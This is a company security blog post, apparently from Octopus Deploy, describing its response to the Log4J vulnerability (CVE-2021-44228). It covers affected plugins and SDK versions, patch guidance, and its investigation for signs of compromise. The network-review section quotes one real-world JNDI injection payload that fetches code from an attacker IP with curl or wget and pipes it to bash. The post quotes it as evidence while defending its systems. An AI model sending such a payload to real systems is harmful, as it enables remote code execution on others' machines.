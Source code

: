 ```yaml
---
title: Octopus Deploy's response to Log4J
description: Learn how Octopus Deploy responded to the Log4J vulnerability (CVE-2021-44228).
author: kyle.jackson@octopus.com
visibility: public
published: 2021-12-14-1400
metaImage: blogimage-security.png
bannerImage: blogimage-security.png
bannerImageAlt: Octopus on shield to represent security
isFeatured: false
tags: 
  - Product
  - Trust and Security
---
```


On Thursday, December 9, 2021, Octopus Deploy was made aware of a vulnerability in the Log4J logging utility ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)). We immediately enacted our Security Incident Response Plan to investigate our use of this utility and its impact on our products and infrastructure.

Fortunately, Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected however there are some related products that are impacted and require updates.

In this post, we share the results of our investigation to date and our recommended next steps for customers.

## JetBrains TeamCity plugin

Version 6.1.7 of the JetBrains TeamCity plugin has been updated to use version 2.15.0 of Log4J. However, all versions of the plugin before 6.1.7 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

Version 6.1.7 of the Octopus Deploy plugin for TeamCity has been published to the marketplace. If you're a TeamCity user, you should be notified of this update through the Web UI and you're strongly encouraged to update.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-12---Octopus-Deploy-TeamCity-Plugin-log4j2-dependency.2306410241.html) for updates.

## Octopus Java SDK

Version 0.0.3 of the Java SDK has been updated to use version 2.15.0 of Log4J. However, all versions of the Java SDK before 0.0.3 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

Customers using the Octopus Java SDK should update their SDK version to 0.0.3.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-13---Octopus-Java-Client-SDK-log4j2-dependency.2306475696.html) for updates.

## Octopus Cloud, Octopus Server, and Octopus Tentacle

Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected by this vulnerability. They’re built with the .NET framework and don’t use any ported versions of Log4J.
## Breakdown of all products

| Product | Vulnerable Log4J version used | Vulnerable product versions | Patched product versions |
| ------- | ----------------------------- | --------------------------- | ------------------------ |
| Azure Devops & TFS Extension | No | N/A | N/A |
| Bamboo Add-on | No | N/A | N/A |
| Java SDK | Yes | <= 0.0.2 | 0.0.3 |
| Jenkins Plugin | No | N/A | N/A |
| Octopus CLI | No | N/A | N/A |
| Octopus Cloud | No | N/A | N/A |
| Octopus Server | No | N/A | N/A |
| Octopus Tentacle | No | N/A | N/A |
| TeamCity Plugin | Yes | <= 6.1.5 | 6.1.7 |

## Was Octopus Deploy compromised? 

From an internal infrastructure perspective we are running products that were using a vulnerable version of Log4J however, we have invested a significant amount of time since the initial announcement on Thursday the 9th of December and we believe Octopus Deploy was not compromised.

While our engineering teams were working to update our products that were affected our Security Operations team focused on analyzing our systems to determine if they had been exploited. The following sections will go a little further into how we went about it.

### Reviewing our internal infrastructure

The vast majority of our internal infrastructure is maintained as Infrastructure as Code (IaC) this allowed us to easily identify potentially vulnerable systems and push updates to these systems with minimal intervention.

In instances where we were unable to determine if a system could be vulnerable or not the Security Operations team used known proof of concepts (PoC) to test if a system was vulnerable and allow us to better mitigate the particular system.

### Reviewing network traffic

We maintain a significant amount of network data across our infrastructure which allows us to identify suspicious network behavior which could result in exploitation of our infrastructure. While reviewing the network data we identified the following:

1. Suspicious activity - We were able to identify suspicious inbound network traffic to our systems including source IPs. However, we didn't identify any malicious outbound traffic which was reassuring.
2. Identifying targeted systems - While analyzing the network data we were able to identify specific systems that were being aggressively targeted and put extra controls and mitigations around those systems to reduce the risk of exploitation.

Here is a user agent string that was sent to one of our servers (decoded and redacted):

```
${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/(curl -s 45.155.205.233:5874/XXX.XXX.XXX.XXX:443||wget -q -O- 45.155.205.233:5874/XXX.XXX.XXX.XXX:443)|bash}
```
### Reviewing endpoints

With the information from reviewing the network data we were able to review specific endpoints that we knew had been aggressively targetted and confirm that they had not been compromised.

Secondary to this by using an EDR solution on our endpoints we are also able to closely monitor them for any signs of compromise or potential exploitation. This data (along with other data sets) feeds into our SIEM (Security Incident and Event Management) system allowing us to be alerted in near real time and respond accordingly.

Using all these approaches to investigate our infrastructure we have found no evidence of a compromise.

## Conclusion

We're continuing to track updates relating to this vulnerability. We'll provide further updates if there's any risk to our customers or products. 

If you have any questions, please reach out via [support@octopus.com](mailto:support@octopus.com).